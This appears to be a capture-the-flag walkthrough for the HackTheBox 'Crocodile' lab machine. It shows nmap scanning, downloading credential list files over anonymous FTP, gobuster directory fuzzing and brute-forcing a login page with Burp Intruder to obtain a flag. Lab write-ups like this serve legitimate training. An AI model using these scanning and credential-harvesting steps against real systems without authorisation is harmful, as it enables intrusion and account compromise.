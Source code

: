 ## Crocodile HackTheBox
#### About Box
A combination of FTP and HTTP, this box will help you to put your thoughts together on how you should use data you find while hunting/ pentesting. Really great for beginner

**`Skill Required:`**
- Nmap
- FTP
- Gobuster/FFUF
- Burp

---

#### Nmap:
Scan the IP to get what's up
```bash
nmap -A -sV --privileged -T4 <ip> -p- -O -sC -v

```
**`Result`**
|PORT|STATE|SERVICE|VERSION|
|----|----|----|----|
|21/tcp|open|ftp|vsftpd 3.0.3|
|80/tcp|open|http|Apache httpd 2.4.41 ((Ubuntu))|

==== **FTP** Result in detail ====
```terminal
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```
We have anonymous login enable here and 2 very juicy file to look at.
---
==== **HTTP** Result in detail ====
```terminal
|_http-favicon: Unknown favicon MD5: 1248E68909EAE600881B8DB1AD07F356
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
#### Getting into **`FTP`**:
Now as we know we have anonymous login enable at **`port 21`**, we will get into it and view the files.
```bash
# FTP command
ftp <ip>
# to login as anonymous just type 'anonymous' and press enter

# list files
ls
# get files to your local system
get file.name
```
Now we have the files we need. Let's dive deep.

#### Getting into web app
Well we have no use to the FTP now. we have to focus on the webapp we have on port 80.

First I'll just do some directory fuzzing. As HTB loves `gobuster` so I'll use it. Here is the command:
```bash
gobuster dir -u http://10.129.130.77/ -w ~/custom-wl/OneListForAll/dict/common_short.txt -r -b 400-499 -e php
```
I have a common but interesting finding called **Dashboard**, this often is for the admins. Let's check.

**Dashboard** redirects to **login.php**. Now we will use our credentials which we got from **FTP** server.

Now we have to bruteforce, but my `hydra` wasn't working well, so I used **`burp intruder`**. 
Upon logining in, you will get the flag.

The the wrap.
